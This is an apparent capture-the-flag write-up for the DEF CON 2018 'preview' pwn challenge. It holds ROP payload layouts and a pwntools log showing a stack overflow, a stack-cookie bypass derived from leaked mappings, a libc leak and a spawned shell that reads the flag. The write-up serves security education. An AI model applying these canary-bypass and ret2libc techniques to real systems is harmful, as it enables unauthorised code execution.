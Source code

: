 # Preview

Category: Pwn

In this challenge, are given a [binary](./preview) `preview` and the corresponding [libc](./libc.so.6). So at least it isn't blind this time around.

We open it up in IDA, and we notice that there's some funky `mmap`-ing going on, and it jumps to the `mmap`ed region.

In GDB, we notice that the actual functionality of the program we observe over nc doesn't happen inside the code segment of the `preview` binary, so we deduce that it must be manually mapping a stage2 for the actual chal functionality.

To take care of that, we can use the `vmmap` command in pwndbg and do a memory dump of the mapped segments to get a [binary](./a) for the real code. However, the imports part of the ELF header seems broken so we can't debug it :( It also means we need to reverse imports manually.

There's a pretty obvious stack overflow for reading the command from the user, where the buffer is only 88 bytes big, but the read is 256 bytes in `process_command`.

```C
__int64 processRequest()
{
  const char *v0; // rdi
  __int64 result; // rax
  unsigned __int64 fsCookie; // rt1
  unsigned int fd; // [rsp+Ch] [rbp-74h]
  _BYTE *newlinePtr; // [rsp+10h] [rbp-70h]
  char cmdbuf[88]; // [rsp+20h] [rbp-60h]
  unsigned __int64 cookie; // [rsp+78h] [rbp-8h]

  cookie = __readfsqword(0x28u);
  if ( !fgets((__int64)cmdbuf, 256LL, *(_QWORD *)stdin) )
    exit(0LL);
  // ...
}
```

We don't know the location that our stage2 is manual mapped at, but luckily on the remote server (and locally) we can do `HEAD /proc/self/maps` to leak it. That bypasses ASLR.

At this point, we were stuck for a long time because of the stack cookie.
However, after some experimentation and staring at `vmmap` in pwndbg, we noticed that the stack cookie is equal to `(base of ld.so << 24) | (base of stage2 >> 4)`!

So now, it's quite trivial to write a ROPchain to leak libc and ret2libc.

```
+0x00 "HEAD "
+0x05 padding
+0x58 saved rbp
+0x60 pop rdi; ret gadget
+0x68 puts@got - value used to leak libc
+0x70 puts@plt - return address from previous gadget
+0x78 main - return address from puts@plt ; stage2 of exploit
```

At this point we have leaked libc and we are back in main safe and sound, which means we can just do the overflow once more to ret2libc.

```
+0x00 "HEAD "
+0x05 padding
+0x58 saved rbp
+0x60 execve(/bin/sh) in libc
```

Output:
```
[x] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337
[x] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337: Trying 52.52.107.212
[+] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337: Done
Solving challenge: "ivNoWSyZYl", n: 22
[x] Starting local process './fastpow'
[+] Starting local process './fastpow': pid 32272
Solution: 849294 -> e91045e7af51404a3a6343074f021b15c32a7087ffa867fcb3942f36f9400000
[DEBUG] Sent 0x15 bytes:
    'HEAD /proc/self/maps\n'
[DEBUG] Received 0x16 bytes:
    'Welcome to preview 0.1'
[DEBUG] Received 0x1cc bytes:
    '\n'
    'Standing by for your requests\n'
    "Here's your preview:\n"
    'b41006a000-b410090000 r-xp 00000000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b41028f000-b410290000 r--p 00025000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b410290000-b410291000 rw-p 00026000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b410291000-b410292000 rw-p 00000000 00:00 0 \n'
    'fc9b47d000-fc9b47f000 r-xp 00000000 00:00 0 \n'
stack cookie = b41006afc9b47d00
break *0xfc9b47dfd6
[DEBUG] Sent 0xfb bytes:
    00000000  48 45 41 44  20 00 00 00  00 00 00 00  00 00 00 00  │HEAD│ ···│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000050  00 00 00 00  00 00 00 00  00 7d b4 c9  af 06 10 b4  │····│····│·}··│····│
    00000060  00 00 00 00  00 00 00 00  b3 e0 47 9b  fc 00 00 00  │····│····│··G·│····│
    00000070  20 f0 67 9b  fc 00 00 00  e0 d9 47 9b  fc 00 00 00  │ ·g·│····│··G·│····│
    00000080  e8 df 47 9b  fc 00 00 00  00 00 00 00  00 00 00 00  │··G·│····│····│····│
    00000090  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000f0  00 00 00 00  00 00 00 00  00 00 0a                  │····│····│···│
    000000fb
[DEBUG] Received 0x5a bytes:
    'fc9b67e000-fc9b67f000 r--p 00000000 00:00 0 \n'
    'fc9b67f000-fc9b680000 rw-p 00000000 00:00 0 \n'
[DEBUG] Received 0x4f bytes:
    00000000  52 65 73 6f  75 72 63 65  20 6e 6f 74  20 66 6f 75  │Reso│urce│ not│ fou│
    00000010  6e 64 0a 90  96 f3 9c 4b  7f 0a 57 65  6c 63 6f 6d  │nd··│···K│··We│lcom│
    00000020  65 20 74 6f  20 70 72 65  76 69 65 77  20 30 2e 31  │e to│ pre│view│ 0.1│
    00000030  0a 53 74 61  6e 64 69 6e  67 20 62 79  20 66 6f 72  │·Sta│ndin│g by│ for│
    00000040  20 79 6f 75  72 20 72 65  71 75 65 73  74 73 0a     │ you│r re│ques│ts·│
    0000004f
fc9b67e000-fc9b67f000 r--p 00000000 00:00 0 
fc9b67f000-fc9b680000 rw-p 00000000 00:00 0 
Resource not found

puts@got = 00007f4b9cf39690
[DEBUG] PLT 0x1f7f0 realloc
[DEBUG] PLT 0x1f800 __tls_get_addr
[DEBUG] PLT 0x1f820 memalign
[DEBUG] PLT 0x1f850 _dl_find_dso_for_object
[DEBUG] PLT 0x1f870 calloc
[DEBUG] PLT 0x1f8a0 malloc
[DEBUG] PLT 0x1f8a8 free
[*] '/home/user/ctf/defcon/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc = 00007f4b9ceca000
[DEBUG] Sent 0xfb bytes:
    00000000  48 45 41 44  20 00 00 00  00 00 00 00  00 00 00 00  │HEAD│ ···│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000050  00 00 00 00  00 00 00 00  00 7d b4 c9  af 06 10 b4  │····│····│·}··│····│
    00000060  00 00 00 00  00 00 00 00  16 f2 f0 9c  4b 7f 00 00  │····│····│····│K···│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000f0  00 00 00 00  00 00 00 00  00 00 0a                  │····│····│···│
    000000fb
[DEBUG] Received 0x12 bytes:
    'Resource not found'
[DEBUG] Received 0x1 bytes:
    '\n'

Welcome to preview 0.1
Standing by for your requests
Resource not found

[*] Switching to interactive mode
[DEBUG] Sent 0x1 bytes:
    'l' * 0x1
[DEBUG] Sent 0x1 bytes:
    's' * 0x1
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x5 bytes:
    'flag\n'
flag
[DEBUG] Sent 0x1 bytes:
    'c' * 0x1
[DEBUG] Sent 0x1 bytes:
    'a' * 0x1
[DEBUG] Sent 0x1 bytes:
    't' * 0x1
[DEBUG] Sent 0x1 bytes:
    ' ' * 0x1
[DEBUG] Sent 0x1 bytes:
    'f' * 0x1
[DEBUG] Sent 0x1 bytes:
    'l' * 0x1
[DEBUG] Sent 0x1 bytes:
    'a' * 0x1
[DEBUG] Sent 0x1 bytes:
    'g' * 0x1
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x44 bytes:
    'OOO{ZOMG, WhAT iF order-of-the-overfow IS ddtek?!?!?!? Plot Twist!}\n'
OOO{ZOMG, WhAT iF order-of-the-overfow IS ddtek?!?!?!? Plot Twist!}
[*] Process './fastpow' stopped with exit code 0 (pid 32272)
[*] Closed connection to cee810fa.quals2018.oooverflow.io port 31337
```

[Final exploit script](./preview.py)

